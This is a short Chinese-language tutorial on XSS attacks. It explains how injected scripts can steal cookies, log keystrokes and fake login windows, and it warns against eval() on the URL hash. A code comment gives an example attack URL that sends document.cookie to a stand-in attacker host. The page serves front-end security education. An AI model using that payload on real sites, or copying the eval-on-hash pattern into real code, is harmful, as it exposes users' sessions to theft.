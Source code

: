 ## XSS 攻击

如果页面被注入了恶意 JavaScript 脚本，它可以做哪些事情呢？

1. **可以窃取 cookie 信息**。恶意 JavaScript 可以通过 ”doccument.cookie“获取cookie信息，然后通过 XMLHttpRequest或者Fetch加上CORS功能将数据发送给恶意服务器；恶意服务器拿到用户的cookie信息之后，就可以在其他电脑上模拟用户的登陆，然后进行转账操作。
2. **可以监听用户行为**。恶意 JavaScript 可以使用 addEventListener 接口来监听键盘事件，比如可以获取用户输入的银行卡等信息，又可以做很多违法的事情。
3. 可以**修改DOM**伪造假的登陆窗口，用来欺骗用户输入用户名和密码等信息。
4. 还可以在页面内生成浮窗广告，这些广告会严重影响用户体验。

资料主要谈后端防 XSS 攻击。

那前端如何防 XSS 攻击？首先尽量不用`eval()`，它使用不当会发生这样的事情。

举一个场景，服务器返回前端代码有这样一句`eval(decodeURI(location.hash.substr(1))`。它会将 URL 中的锚点字符串取出并作为 JS 脚本执行。

```js
/**
 * 1. 下面包含使用 eval() 不当的代码的网页地址为 'http://domain.com'。
 * 2. 包含攻击代码的 URL 为 'http://domain.com#new Image().src="http://badass.com/"+document.cookie,
 * 3. 当用户访问了包含攻击代码的 URL 时（如随便点击不明链接），会在用户浏览器向第三方网站（坏人的网站）发送 GET 请求，将 cookie 泄露。
 */
let scriptStr = location.hash.substr(1)
eval(decodeURI(scriptStr))
```



## 阅读资料

[web安全之XSS实例解析](https://segmentfault.com/a/1190000022819450)



